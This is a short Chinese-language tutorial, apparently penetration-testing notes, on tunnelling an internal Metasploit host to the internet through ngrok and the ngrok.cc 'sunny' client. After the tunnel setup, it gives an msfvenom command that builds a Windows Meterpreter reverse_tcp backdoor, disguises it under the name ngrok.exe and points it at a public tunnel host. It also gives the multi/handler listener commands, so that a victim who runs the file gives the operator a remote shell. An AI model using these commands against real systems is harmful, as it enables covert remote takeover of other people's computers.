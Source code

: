 ## **ngrok工具**
仅支持http https tcp
可将本地电脑有MSF的虚拟机 借助穿透平台 内网tcp穿透到公网。
>免费第三方内网穿透，也即 NAT 穿透，进行 NAT 穿透是为了使具有某一个特定源 IP 地址和源端口号的数据包不被 NAT 设备屏蔽而正确路由到内网主机。ngrok 是一个反向代理，通过在公共的端点和本地运行的 Web 服务器之间建立一个安全的通道。

## **公网机租借平台**
国外平台：<https://dashboard.ngrok.com/login>
获取授权码Authtoken

国内平台：http://ngrok.cc
获取隧道ID

## **使用方法**
国外版
```
认证ngrok代理：ngrok.exe authtoken xxxxxxxxxxxxxxxxxxxxxxx(授权码)
将HTTP隧道转发到本地端口80：ngrok.exe http 80
```
![](https://img.kancloud.cn/65/83/65831fe49f8fc215579a327f7ce31f69_801x211.png)


^

## **将内网的MSF机子变成外网**
国内版
```
开通服务，选择绑定内网机的端口 如192.168.1.6:2222，服务端口 如10039，每一个服务有对应隧道ID 如145413377855

下载对应平台客户端，如linux的sunny，运行
./sunny clientid 145413377855

此时访问 赠送的子域名:2222 就是内网主机的2222端口。
```  
内网机MSF上线
```
内网机MSF生成反向后门
msfvenom -p windows/meterpreter/reverse_tcp lhost=free.idcfengye.com lport=10039 -f exe -o ngrok.exe


内网机MSF监听2222端口
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.6
set lport 2222
run


此时另一内网的机子运行ngrok.exe反弹到free.idcfengye.com:10039
又穿透到内网机的MSF的2222，实现上线。
```




